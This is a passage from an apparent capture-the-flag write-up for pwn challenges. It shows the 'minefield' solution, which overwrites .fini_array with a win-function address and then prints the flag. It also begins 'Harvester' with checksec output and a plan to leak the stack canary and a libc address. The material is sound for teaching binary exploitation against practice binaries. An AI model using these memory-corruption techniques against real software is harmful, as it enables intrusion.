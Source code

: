 Looking at the virtual addresses of the section table above, we can determine `.fini_array` to be `0x00601078`. We need to overwrite it with the value of the `win` function at `0x0040096b`.

```sh
$ ./minefield
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 2
We are ready to proceed then!
Insert type of mine: 6295672
Insert location to plant: 4196715
We need to get out of here as soon as possible. Run!

Mission accomplished! ✔
CHTB{d3struct0r5_m1n3f13ld}
```

## Pwn: Harvester

```sh
$ checksec --file harvester
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   harvester
```

Possibly one of the toughest pwns in the CTF that featured a Pokemon battle-themed option menu. We're provided with 2 binaries: `harvester` and `libc.so.6`. Checksec reported all security mitigations are enabled, so that means we need to first find a way to leak the canary as well as a libc address leak to calculate the libc base before we can begin exploiting.

```sh
$ ./harvester

A wild Harvester appeared 🐦

Options:

[1] Fight 👊    [2] Inventory 🎒
[3] Stare 👀    [4] Run 🏃
> 1

Choose weapon:

[1] 🗡           [2] 💣
[3] 🏹          [4] 🔫
> pwn

Your choice is: pwn

You are not strong enough to fight yet.

Options:

[1] Fight 👊    [2] Inventory 🎒
[3] Stare 👀    [4] Run 🏃
> 2

You have: 10 🥧

Do you want to drop some? (y/n)
> n

Options:

[1] Fight 👊    [2] Inventory 🎒
```